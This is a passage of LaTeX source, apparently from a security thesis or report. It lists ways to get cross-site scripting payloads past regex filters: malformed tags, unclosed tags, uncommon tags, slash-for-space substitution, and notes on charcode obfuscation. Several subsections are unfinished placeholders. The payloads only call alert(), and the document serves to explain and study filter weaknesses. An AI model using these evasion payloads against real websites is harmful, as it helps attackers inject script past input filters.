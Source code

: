 \subsection{XSS Payloads}
\label{sec:xsstech}
This section lists evasion techniques applicable to \gls{xss} payloads.

\subsubsection{Tag modification}
In a case, where regex filters are configured to look for html tags, modifying html tags might make a payload evade the filter. Possible modifications include:
\begin{itemize}
	\item prepending the tag with an additional \verb|<|: \verb|<<script>alert('XSS')</script>|
	\item omitting the closing tag: \verb|<script>alert('XSS')|
	\item using double open angle brackets: \verb|<iframe src=javascript:alert('XSS') <|
	\item using uncommon tags: \\ \verb|<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE>|
\end{itemize}
Technique by \cite{medium/allypetitt}

\subsubsection{Space replace}
A regex filter that is expecting a space inside a html tag at certain positions can be evaded by replacing the space with a \verb|/|.
For instance, \verb|<img src="1" onerror="alert('XSS')">| becomes \verb|<img/src="1"/onerror="alert('XSS')">|.
Technique by \cite{medium/allypetitt}

\subsubsection{HTML encoding}
{\color{red}TODO: see the <a> thing}

\subsubsection{From charcode}
{\color{red}TODO: String.fromCharCode(0x4c,105,0x6e,117,120) \cite{asecsite/jsobf1}}

\subsubsection{String passing}
